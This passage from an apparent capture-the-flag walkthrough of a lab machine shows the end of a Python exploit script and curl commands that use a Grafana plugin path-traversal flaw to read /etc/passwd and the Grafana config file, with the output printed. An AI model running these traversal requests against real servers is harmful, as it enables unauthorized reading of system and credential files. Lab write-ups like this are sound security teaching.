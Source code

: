                 if 'Plugin file not found' in r.text:
                    print('[-] File not found\n')
                else:
                    if r.status_code == 200:
                        print(r.text)
                    else:
                        print('[-] Something went wrong.')
                        return
            except requests.exceptions.ConnectTimeout:
                print('[-] Request timed out. Please check your host settings.\n')
                return
            except Exception:
                pass
    

#### POC

Rather than use the script, I’ll grab a plugin at random from the list and try
to access the URL on Ambassador with `curl` the same way it did in the script.
I’ll use `--path-as-is` to prevent `curl` from fixing things like `../`. It
fetches `/etc/passwd` successfully, showing file read:

    
    
    oxdf@hacky$ curl --path-as-is curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...[snip]...
    developer:x:1000:1000:developer:/home/developer:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    grafana:x:113:118::/usr/share/grafana:/bin/false
    mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
    consul:x:997:997::/home/consul:/bin/false
    

### Grafana Access

#### grafana.ini

I can’t seem to read anything interesting in `/home/developer`, which suggests
the webserver is running as another user (likely www-data).

There’s not much of interested to pull from the Hugo site, and I can read
`/var/www/html/index.html` as the main page.

Grafana stores a config in `/etc/grafana/grafana.ini`, according to [the
docs](https://grafana.com/docs/grafana/latest/setup-grafana/configure-
grafana/). I’m able to read it:

    
    
    oxdf@hacky$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini
    ##################### Grafana Configuration Example #####################
    #
    # Everything has defaults so you only need to uncomment things you want to
    # change
    